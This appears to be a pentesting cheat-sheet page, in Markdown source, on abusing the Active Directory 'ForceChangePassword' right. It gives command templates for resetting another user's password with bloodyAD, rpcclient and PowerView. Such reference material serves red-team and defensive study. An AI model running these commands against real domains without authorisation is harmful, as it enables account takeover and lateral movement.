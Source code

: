 ```yaml
---
title: "ForceChangePassword"
date: 2024-7-18
tags: ["Forcechangepassword", "Powerview", "Active Directory", "Windows", "bloodyAD"]
---
```


### Change target user password (From Linux)

{{< tab set1 tab1 active >}}BloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}rpcclient{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p '<PASSWORD>' --host <DC> set password <TARGET_USER> '<NEW_PASSWORD>'
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
rpcclient -U '<DOMAIN>/<USER>%<PASSWORD>' <TARGET> -c 'setuserinfo2 <TARGET_USER> 23 <TARGET_USER_NEW_PASSWORD>'
```

{{< /tabcontent >}}

### Change target user password (From Windows)

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Change Target User Password

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force 
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

{{< /tabcontent >}}
